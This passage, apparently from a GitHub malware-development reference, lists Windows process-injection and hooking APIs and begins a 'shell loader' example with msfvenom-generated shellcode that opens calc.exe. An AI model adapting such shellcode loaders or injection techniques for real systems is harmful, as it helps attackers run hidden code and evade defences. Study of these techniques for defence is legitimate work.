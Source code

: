   - [Code Example](#code-example-12)
- [ConvertSidToStringSidA](#convertsidtostringsida)
  - [Code Example](#code-example-13)
- [MessageBoxA](#messageboxa)
  - [Code Example](#code-example-14)
- [HookedMessageBox](#hookedmessagebox)
  - [Code Example](#code-example-15)
- [GetProcAddress](#getprocaddress)
  - [Code Example](#code-example-16)
- [CreateProcessA](#createprocessa)
  - [Code Example](#code-example-17)
- [OpenProcess](#openprocess)
  - [Code Example](#code-example-18)
- [DuplicateHandle](#duplicatehandle)
  - [Code Example](#code-example-19)
- [VirtualAllocEx](#virtualallocex)
  - [Code Example](#code-example-20)
- [VirtualProtectEx](#virtualprotectex)
  - [Code Example](#code-example-21)
- [SetThreadContext](#setthreadcontext)
  - [Code Example](#code-example-22)
- [QueueUserAPC](#queueuserapc)
  - [Code Example](#code-example-23)
- [CreateRemoteThread](#createremotethread)
  - [Code Example](#code-example-24)


## Basic Shell Loader Combo

```cpp
#include <stdio.h>
#include <Windows.h>


/// <summary>
/// msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -f c
/// </summary>
/// 
/// 
/// 64 bit shellcode calc 276bytes be sure that it has been changed in virtuallalloc and memcpy
/// 
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


```